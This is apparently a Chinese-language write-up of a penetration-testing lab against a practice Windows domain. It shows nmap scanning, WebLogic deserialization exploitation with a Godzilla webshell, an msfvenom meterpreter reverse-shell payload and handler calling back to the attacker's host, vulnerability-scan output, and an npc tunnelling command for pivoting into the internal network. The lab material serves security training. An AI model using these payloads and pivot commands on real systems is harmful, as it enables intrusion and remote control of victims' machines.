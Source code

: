 web: 10.10.10.80   192.168.236.202

PC: 10.10.10.201   192.168.236.201

DC: 10.10.10.10

kali: 192.168.236.130

## 首先用nmap扫描目标

nmap -sS -sV -Pn -T4 192.168.111.80

-sS代表使用半开式SYN扫描，这种扫描方式很少在目标主机上留下扫描日志

-sV代表版本探测，探测服务的版本

-Pn代表穿过防火墙扫描

-T4代表扫描时间间隔，设置速度等级，0-5级，数字越大，扫描时间间隔越小，速度就越快。（T0-T2串行扫描，T3-T5并行扫描）

![image-20240204230823234](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240204230823234.png)

- 80端口IIS我记得是一个中间件并且有漏洞
- 135 没见过，用于远程的打卡对方的telnet服务
- 开放139端口，就存在Samba服务，就可能存在爆破/未授权访问/远程命令执行漏洞
- 445端口开放意味着存在smb服务，可能存在ms17_010永恒之蓝漏洞。
- 开放1433端口，就存在mssql服务，可能存在爆破/注入/SA弱口令。
- 开放3389端口，就存在远程桌面。
- 7001端口说明目标IP存在weblogic服务可能存在反序列化，SSRF,任意文件上传，后台路径泄露

先看一下7001端口的weblogic漏洞，进去是一个404页面，扫描一下后台目录

![image-20240204231937348](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240204231937348.png)

页面是显示版本是：10.3.6.0

![image-20240204232009137](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240204232009137.png)

提示有两个java的反序列化漏洞，

![image-20240204232754976](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240204232754976.png)

通过利用Java反序列化工具文件上传一个哥斯拉马

![image-20240206141850864](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206141850864.png)

哥斯拉马生成

管理=》生成即可

![image-20240206142018641](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206142018641.png)

然后用msfvenom制作一个反连本地端口的一个木马

```java
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.236.130 LPORT=4444 -f exe -o ccc.exe
```

```java
set payload windows/x64/meterpreter/reverse_tcp  
show options
set LHOST 0.0.0.0
exploit 开启监听
```

然后把木马通过哥斯拉传上去即可

连接上去之后直接查看网段，发现存在192.168.236.202和10.10.10.80两个网段

```java
192.168.236.201:139 open
192.168.236.202:139 open
192.168.236.1:139 open
192.168.236.201:135 open
192.168.236.202:135 open
192.168.236.1:135 open
192.168.236.202:80 open
192.168.236.130:443 open
192.168.236.130:80 open
192.168.236.202:445 open
192.168.236.201:445 open
192.168.236.1:445 open
192.168.236.202:1433 open
192.168.236.1:1521 open
192.168.236.1:3306 open
192.168.236.202:7001 open
192.168.236.130:8080 open
[*] alive ports len is: 17
start vulscan
已完成 9/20 [-] webtitle https://192.168.236.130 Get "https://192.168.236.130": EOF
NetInfo:
[*]192.168.236.1
   [->]LAPTOP-11MT9DPS
   [->]192.168.0.13
   [->]192.168.152.1
   [->]192.168.236.1
   [->]10.10.10.1
   [->]2408:821a:e11:fa50:f7b:4f39:4d91:e485
   [->]2408:821a:e11:fa50:34e3:4523:ed91:ed6c
NetInfo:
[*]192.168.236.201
   [->]PC
   [->]192.168.236.201
   [->]10.10.10.201
[*] 192.168.236.202      DE1AY\WEB               Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] WebTitle:http://192.168.236.130    code:404 len:182    title:nps error
[*] 192.168.236.1        WORKGROUP\LAPTOP-11MT9DPS   
[*] WebTitle:http://192.168.236.130:8080 code:302 len:35     title:None
[*] WebTitle:http://192.168.236.130:8080/login/index code:200 len:3617   title:None
[*] WebTitle:http://192.168.236.202    code:200 len:0      title:None
[*] WebTitle:http://192.168.236.202:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan:http://192.168.236.202:7001 [weblogic] 
[+] http://192.168.236.130:8080 poc-yaml-nps-default-password 
2024/02/06 14:55:03 Unsolicited response received on idle HTTP channel starting with "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"UTF-8\">\n    <title>nps error</title>\n</head>\n<body>\n404 not found,power by <a href=\"//ehang.io/nps\">nps</a>\n</body>\n</html>"; err=<nil>
2024/02/06 14:55:05 Unsolicited response received on idle HTTP channel starting with "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"UTF-8\">\n    <title>nps error</title>\n</head>\n<body>\n404 not found,power by <a href=\"//ehang.io/nps\">nps</a>\n</body>\n</html>"; err=<nil>
已完成 20/20
scan end
```

扫描内网段

```java
start infoscan
(icmp) Target 10.10.10.10     is alive
(icmp) Target 10.10.10.80     is alive
(icmp) Target 10.10.10.1      is alive
[*] Icmp alive hosts len is: 3
10.10.10.80:1433 open
10.10.10.80:445 open
10.10.10.10:88 open
10.10.10.1:3306 open
10.10.10.1:1521 open
10.10.10.1:445 open
10.10.10.80:7001 open
10.10.10.1:139 open
10.10.10.1:135 open
10.10.10.10:445 open
10.10.10.80:139 open
10.10.10.10:139 open
10.10.10.80:135 open
10.10.10.10:135 open
10.10.10.80:80 open
[*] alive ports len is: 15
start vulscan
[+] 10.10.10.80 MS17-010        (Windows Server 2008 R2 Standard 7601 Service Pack 1)
[+] 10.10.10.1 CVE-2020-0796 SmbGhost Vulnerable
[*] 10.10.10.80          DE1AY\WEB               Windows Server 2008 R2 Standard 7601 Service Pack 1
NetInfo:
[*]10.10.10.1
   [->]LAPTOP-11MT9DPS
   [->]192.168.0.13
   [->]192.168.152.1
   [->]192.168.236.1
   [->]10.10.10.1
   [->]2408:821a:e11:fa50:f7b:4f39:4d91:e485
   [->]2408:821a:e11:fa50:34e3:4523:ed91:ed6c
[*] WebTitle:http://10.10.10.80        code:200 len:0      title:None
NetInfo:
[*]10.10.10.10
   [->]DC
   [->]10.10.10.10
[+] 10.10.10.10 MS17-010        (Windows Server 2012 R2 Standard 9600)
[*] 10.10.10.1           WORKGROUP\LAPTOP-11MT9DPS   
[*] 10.10.10.10    [+]DC DE1AY\DC                Windows Server 2012 R2 Standard 9600
[*] WebTitle:http://10.10.10.80:7001   code:404 len:1164   title:Error 404--Not Found
[+] InfoScan:http://10.10.10.80:7001   [weblogic] 
[+] http://10.10.10.80:7001 poc-yaml-weblogic-cve-2017-10271 echo
[+] http://10.10.10.80:7001 poc-yaml-weblogic-cve-2020-14750 
[+] http://10.10.10.80:7001 poc-yaml-weblogic-cve-2019-2729-2 
已完成 18/18
scan end

```

扫描出来了一些内网开放的端口，先挂上代理才能访问到内网的服务

（这里是kali的ip ）

```java
npc.exe -server=192.168.236.130:8024 -vkey=nnogm652lv62mvwb -type=tcp
```

![image-20240206153140545](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206153140545.png)

因为在kali中挂代理是不能看见界面情况的，所以现在windows本机挂一个Proxifier（二步即可）

![image-20240206154140804](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206154140804.png)

![image-20240206154153090](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206154153090.png)

![image-20240206154213799](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206154213799.png)

然后在kali中挂一个proxichains

`测试是否成功，用dirsearch端口扫描看结果即可`

![image-20240206160844185](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206160844185.png)









### 一些技巧

```java
从kali中上传文件到控制的windows主机
```

![image-20240206150102351](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240206150102351.png)









